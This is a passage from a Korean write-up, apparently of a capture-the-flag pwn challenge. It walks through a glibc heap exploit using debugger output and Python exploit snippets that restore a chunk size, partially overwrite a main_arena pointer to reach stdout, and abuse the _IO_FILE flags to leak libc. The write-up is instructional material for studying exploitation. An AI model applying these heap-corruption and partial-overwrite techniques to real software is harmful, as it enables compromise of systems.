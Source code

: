``` bash
[+] unsorted_bins[0]: fw=0x555555559640, bk=0x555555559640
 →   Chunk(addr=0x555555559650, size=0x420, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
```
`0x555555559650` chunk는 여전히 fastbin에 있으므로 `next_chunk`에 담기게 된 `main_arena`가 다음 chunk로 해석되어 libc 영역을 할당받을 수 있게 되었다.

다만 fastbin에서는 `size`에 대한 검증을 하므로 `0x421`로 overwrite한 chunk size를 다시 원복시켜야 한다.
``` python
    # restore chunk size
    edit(s, 11, p64(0) + p64(0x71))
```

### Stdout attack
Stdout의 `flag`를 변경할 수 있을 때 libc leak이 가능한 기법이 있어 다음 자료를 참고했다.

- [stdout의 file structure flag를 이용한 libc leak](https://jeongzero.oopy.io/4c0f8878-4733-48aa-8ead-5f06a0e40490)

Unsorted bin attack을 잘 수행하면 `0x555555559650` 주소에 담긴 `main_arena` 주소는 다음과 같다.
``` bash
gef➤  x/4gx 0x555555559650 - 0x10
0x555555559640: 0x0000000000000000      0x0000000000000071
0x555555559650: 0x00007ffff7fbfbe0      0x00007ffff7fbfbe0
```
한편 `stdout`은 libc 영역에 저장된 `_IO_FILE` 구조체를 가리키는데, 그 주소는 다음과 같다.
``` bash
gef➤  x/6gx 0x555555558020
0x555555558020 <stdout>:        0x00007ffff7fc06a0      0x0000000000000000
0x555555558030 <stdin>:         0x00007ffff7fbf980      0x0000000000000000
0x555555558040 <stderr>:        0x00007ffff7fc05c0      0x0000000000000000
```
`0x7ffff7fbfbe0`와 `0x7ffff7fc06a0`는 ASLR이 없을 때는 주소값이 `3`바이트 차이가 나지만 ASLR이 켜져있을 때는 확률적으로 `2`바이트만 차이가 나므로 partial overwrite를 했을 때 1/16 확률로 exploit이 가능하다.
``` python
    # partially overwrite main_arena -> stdout
    buy(s, 0x60)
    edit(s, 22, b"\xa0\x06\xfc")    # aslr off
    # edit(s, 22, b"\xa0\x76")      # aslr on
    
    for _ in range(3):
        buy(s, 0x60)
```
따라서 1/16 확률로 `stdout`의 `_IO_FILE` 구조체가 저장된 libc 주소를 할당받게 된다면 `flag`를 바꿔 libc 주소를 출력할 수 있다.

Exploit 테크닉을 요약하자면 `flag`에 `_IO_IS_APPENDING`을 추가했을 때 다음과 같이 `_IO_new_do_write`가 호출되므로 `_IO_write_base`, `_IO_write_ptr`을 잘 조작해주면 된다.
``` c
// _IO_do_write (FILE *fp, const char *data, size_t to_do)
_IO_do_write (stdout, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
```
값을 변경하기 전 `stdout`의 `_IO_FILE` 구조체의 상태는 다음과 같다.
``` bash
gef➤  p *(struct _IO_FILE *) 0x7ffff7fc06a0
$1 = {
  _flags = 0xfbad2887,
  _IO_read_ptr = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_read_end = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_read_base = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_write_base = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_write_ptr = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_write_end = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_buf_base = 0x7ffff7fc0723 <_IO_2_1_stdout_+131> "\n",
  _IO_buf_end = 0x7ffff7fc0724 <_IO_2_1_stdout_+132> "",
  ...
}
```
